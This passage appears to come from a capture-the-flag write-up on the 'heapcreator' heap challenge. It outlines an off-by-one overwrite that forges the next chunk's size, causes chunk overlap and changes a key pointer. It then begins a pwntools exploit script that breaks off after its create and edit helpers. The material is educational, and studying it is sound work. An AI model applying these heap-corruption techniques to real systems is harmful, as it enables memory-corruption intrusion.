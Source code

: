 
### Use


Basic use ideas are as follows


1. Use the off by one vulnerability to overwrite the size field of the next chunk to construct a fake chunk size.
2. Apply the forged chunk size to create a chunk overlap and modify the key pointer.


More specific is to look at the script directly.


```python

#!/usr/bin/env python

# -*- coding: utf-8 -*-



from pwn import *



r = process('./heapcreator')

heap = ELF('./heapcreator')

libc = ELF('./libc.so.6')





def create(size, content):

    r.recvuntil(":")

    r.sendline("1")

    r.recvuntil(":")

    r.sendline(str(size))

    r.recvuntil(":")

    r.sendline(content)





def edit(idx, content):

    r.recvuntil(":")

    r.sendline("2")

    r.recvuntil(":")

    r.sendline(str(idx))

    r.recvuntil(":")

```